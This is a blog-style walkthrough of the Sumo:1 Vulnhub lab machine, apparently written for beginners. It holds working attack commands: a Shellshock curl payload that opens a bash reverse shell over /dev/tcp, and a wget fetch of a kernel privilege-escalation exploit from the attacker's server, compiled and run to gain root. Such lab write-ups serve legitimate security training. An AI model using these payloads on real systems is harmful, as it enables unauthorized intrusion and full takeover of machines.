 ```yaml
---
date: 2020-06-17 00:36:33
layout: post
title: "Sumo Vulnhub Walkthrough"
subtitle:
description: Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners.
image: /assets/img/uploads/sumo/sumo-optimized.png
optimized_image: /assets/img/uploads/sumo/sumo-optimized.png
category: walkthrough
tags: vulnhub boot2root
author:
paginate: false
---
```


Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners. This includes exploiting a shellshock vulnerability to get a reverse shell and then exploiting the old version kernel used by the VM to get root. I've add the IP to my hosts file, So Lets Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.16    sumo.local
```

## Inital Enumeration and User Shell

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/sumo sumo.local

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 13:06 IST
Nmap scan report for sumo.local (192.168.1.16)
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:97:C2:5C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds
```

We have a port 80 open which displays a default web server page says that "It Works!"

<center><br>
<img src="/assets/img/uploads/sumo/port80.png">
</center>
<p align="justify">
Next I ran a gobuster scan to look for hidden directories, but didn't find anything interesting there. Then I performed a nikto scan to search for some web based vulnerabilities and found that this web server is vulnerable to <b>shellshock vulnerability.</b> </p>

```r
root@kali:~# nikto -h sumo.local
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.16
+ Target Hostname:    sumo.local
+ Target Port:        80
+ Start Time:         2020-06-16 13:11:34 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 23:25:10 2020
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3092: /cgi-bin/test/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8595 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2020-06-16 13:12:15 (GMT5.5) (41 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
If you don't know about shellshock vulnerability, I recommend reading about it <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)">here.</a> I tested the vulnerability by running <b>id</b> command.
```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://sumo.local/cgi-bin/test/test.cgi  

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Excellent, We were able to exploit this vulnerability. Now I executed a payload to open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.6/9001 0>&1' http://sumo.local/cgi-bin/test/test.cgi  
```
I opened a netcat listner on the other terminal and we got the reverse shell.

```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.16] 60230
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root Shell
<p align="justify">
Getting root on this machine was quite easy and straight forward. This machine is a using an old version of kernel. There are many exploits available to escalate the privileges. One of the most famous is Dirty Cow but I won't be using it here.
</p>

```r
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Instead I used <a href="https://www.exploit-db.com/exploits/33589"> this exploit</a> from exploitdb. I downloaded this exploit on my host machine and started a python http server and tranferred it to the target machine in the tmp directory.

```r
www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp
cd /tmp

www-data@ubuntu:/tmp$ wget http://192.168.1.6:8000/33589.c
wget http://192.168.1.6:8000/33589.c     
--2020-06-16 03:50:50--  http://192.168.1.6:8000/33589.c
Connecting to 192.168.1.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]         
Saving to: `33589.c'                     

     0K ...         100%  242M=0s
2020-06-16 03:50:50 (242 MB/s) - `33589.c' saved [3664/3664]
```
Then I tried to complite the exploit but it gave an error. This error can be fixed by updating the path variables using the following command:

```r
www-data@ubuntu:/tmp$ PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH   
```

This time the exploit complied without any errors, I gave the exploit executable permissions and after running the exploit, we were root!  

```r
www-data@ubuntu:/tmp$ gcc 33589.c -O2 -o exploit
gcc 33589.c -O2 -o exploit

www-data@ubuntu:/tmp$ chmod 777 exploit && ./exploit 0
chmod 777 exploit && ./exploit 0

stdin: is not a tty
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'

root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
{Sum0-SunCSR-2020_r001}
```
<p align="justify"> That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> </p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/MarkusM">Markus Magnusson.</a>